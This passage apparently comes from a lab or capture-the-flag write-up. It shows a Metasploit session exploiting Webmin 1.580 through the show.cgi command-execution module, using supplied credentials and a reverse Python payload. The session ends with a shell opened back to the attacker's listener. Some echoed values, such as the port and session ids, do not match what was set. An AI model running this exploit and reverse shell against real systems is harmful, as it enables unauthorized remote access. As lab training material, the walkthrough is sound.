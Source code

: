     
    Exploit target:
    
       Id  Name
       --  ----
       0   Webmin 1.580
    
    
    
    View the full module info with the info, or info -d command.

Now we can set up the exploit module

    msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set RHOSTS <target_machine_ip>
    RHOSTS => <target_machine_ip>
    msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set RPORT 10000
    RPORT => 80
    msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set USERNAME agent47
    USERNAME => agent47
    msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set PASSWORD <password>
    PASSWORD => <password>
    msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set PAYLOAD /cmd/unix/reverse_python
    PAYLOAD => cmd/unix/reverse_python
    msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set LPORT 443
    LPORT => 443
    msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set LHOST <local_machine_ip>
    LHOST => <local_machine_ip>
    msf6 exploit(unix/webapp/webmin_show_cgi_exec) > check
    [*] 0.0.0.1:10000 - The service is running, but could not be validated.
    [+] 127.0.0.1:10000 - The target is vulnerable.
    msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit
    [*] Exploiting target 0.0.0.1
    
    [*] Started reverse TCP handler on 10.10.8.171:443 
    [*] Attempting to login...
    [-] Authentication failed
    [*] Exploiting target 127.0.0.1
    [*] Started reverse TCP handler on 10.10.8.171:443 
    [*] Attempting to login...
    [+] Authentication successful
    [+] Authentication successful
    [*] Attempting to execute the payload...
    [+] Payload executed successfully
    [*] Command shell session 1 opened (10.10.8.171:443 -> 10.10.2.137:43254) at 2023-11-10 17:44:31 +0000
    [*] Session 1 created in the background.

List the sessions and take a shell

    msf6 exploit(unix/webapp/webmin_show_cgi_exec) > sessions


    Active sessions

    ===============
    
      Id  Name  Type            Information  Connection
      --  ----  ----            -----------  ----------
      2         shell cmd/unix               10.10.8.171:443 -> 10.10.2.137:43264 (127.0.0.1)
    